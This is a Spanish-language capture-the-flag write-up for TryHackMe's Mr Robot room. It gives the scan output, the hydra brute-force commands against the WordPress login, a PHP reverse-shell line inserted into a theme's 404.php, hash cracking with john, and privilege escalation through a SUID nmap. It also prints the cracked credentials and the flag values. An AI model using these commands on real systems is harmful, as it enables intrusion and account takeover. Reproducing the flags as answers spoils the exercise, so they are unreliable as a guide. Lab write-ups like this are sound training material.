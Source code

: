 # Write Up Mr Robot CTF TryHackMe

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 10:14 EDT
Nmap scan report for 10.10.192.219
Host is up (0.047s latency).

PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
Device type: general purpose|specialized|storage-misc|broadband router|WAP|printer
Running (JUST GUESSING): Linux 5.X|3.X|4.X|2.6.X (89%), Crestron 2-Series (87%), HP embedded (87%), Asus embedded (86%)
OS CPE: cpe:/o:linux:linux_kernel:5.4 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 5.4 (89%), Linux 3.10 - 3.13 (88%), Linux 3.10 - 4.11 (88%), Linux 3.12 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 3.2 - 3.5 (88%), Linux 3.2 - 3.8 (88%), Linux 4.2 (88%), Linux 4.4 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   44.99 ms 10.9.0.1
2   45.06 ms 10.10.192.219

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.68 seconds
```

### Gobuster

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.192.219/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/0                    (Status: 301) [Size: 0] [--> http://10.10.192.219/0/]
/0000                 (Status: 301) [Size: 0] [--> http://10.10.192.219/0000/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.192.219/Image/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.192.219/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.192.219/feed/atom/]
/audio                (Status: 301) [Size: 235] [--> http://10.10.192.219/audio/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.192.219/blog/]
/css                  (Status: 301) [Size: 233] [--> http://10.10.192.219/css/]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.192.219/wp-admin/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.192.219/feed/]
/image                (Status: 301) [Size: 0] [--> http://10.10.192.219/image/]
/images               (Status: 301) [Size: 236] [--> http://10.10.192.219/images/]
/intro                (Status: 200) [Size: 516314]
/js                   (Status: 301) [Size: 232] [--> http://10.10.192.219/js/]
/license              (Status: 200) [Size: 309]
/login                (Status: 302) [Size: 0] [--> http://10.10.192.219/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.192.219/]
/phpmyadmin           (Status: 403) [Size: 94]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.192.219/feed/rdf/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.192.219/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.192.219/feed/]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 235] [--> http://10.10.192.219/video/]
/wp-admin             (Status: 301) [Size: 238] [--> http://10.10.192.219/wp-admin/]
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.192.219/wp-content/]
/wp-config            (Status: 200) [Size: 0]
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.192.219/wp-includes/]
/wp-login             (Status: 200) [Size: 2671]
/xmlrpc               (Status: 405) [Size: 42]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a `/robots.txt` en la URL veremos 2 ubicaciones en las que pone lo siguiente...

> /key-1-of-3.txt (flag1)

```
073403c8a58a1f80d943455fb30724b9
```

> /fsocity.dic

Eso es un diccionario de palabras que te descarga, por lo que lo usaremos para probar fuerza bruta tanto en el usuario como en la contraseña...

En el panel de login de WordPress vemos que cuando fallamos el usuario nos pone que fallamos el usuario, pero cuando acertamos el usuario y la contraseña no, nos pone que fallamos la contraseña, por lo que aprovecharemos eso para sacar usuario y contraseña en WordPress...

```shell
hydra -L fsocity.dic -p <PASSWORD> <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-13 11:16:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.192.219:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username
[80][http-post-form] host: 10.10.192.219   login: Elliot   password: admin
```

Con esto ya sabemos el usuario, por lo que utilizaremos `hydra` para sacar la contraseña...

```shell
hydra -l Elliot -P fsocity.dic <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"
```

```
Password = ER28-0652
```

Una vez dentro haremos una Reverse Shell...

Dentro del panel de WordPress nos vamos a `Themes` y `Editor` de ahi nos dirigimos a donde pone `404.php` y para que nos salga ese error (Entrar dentro de ese .php) tendremos que poner una ruta mala o que directamente no pille dentro de WordPress, en mi caso `http://<IP>/mi-wordpress` una vez alli ponemos en el codigo de php del `404.php` lo siguiente...

```shell
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Lo guardamos y estamos a la escucha...

```shell
nc -lvnp <PORT>
```

Una vez recargada la pagina de lerror nos dara la shell...

Si nos vamos a la `/home` de `robot` veremos que hay un `password.raw-md5` con el usuario y contraseña de robot, pero la contraseña esta hasheada, por lo que la tenemos que crackear...

Info:

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

```shell
john --wordlist=<WORDLIST> --format=Raw-MD5 <HASH_FILE>
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (robot)     
1g 0:00:00:00 DONE (2024-05-13 12:06) 100.0g/s 4051Kp/s 4051Kc/s 4051KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

```
robot:abcdefghijklmnopqrstuvwxyz
```

Nos importamos una shell por que si no, no nos dejara cambiar de usuario...

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

Leemos la segunda flag llamada `key-2-of-3.txt`...

> key-2-of-3.txt (flag2)

```
822c73956184f694993bede3eb39f959
```

Si hacemos...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Nos buscara lo que podemos ejecutar con SUID (root)

```
34835  496 -rwsr-xr-x   1 root     root       504736 Nov 13  2015 /usr/local/bin/nmap
```

Vemos que podemos ejecutar `nmap` con privilegios de "root" por lo que haremos lo siguiente...

```shell
nmap --interactive

# Dentro del entorno de 'nmap'
!whoami

nmap> root

# Cuando vemos que somos root nos damos una shell
!sh
```

Ya seriamos `root` por lo que leemos la ultima flag...

> key-3-of-3.txt (flag3)

```
04787ddef27c3dee1ee161b21670b4e4
```
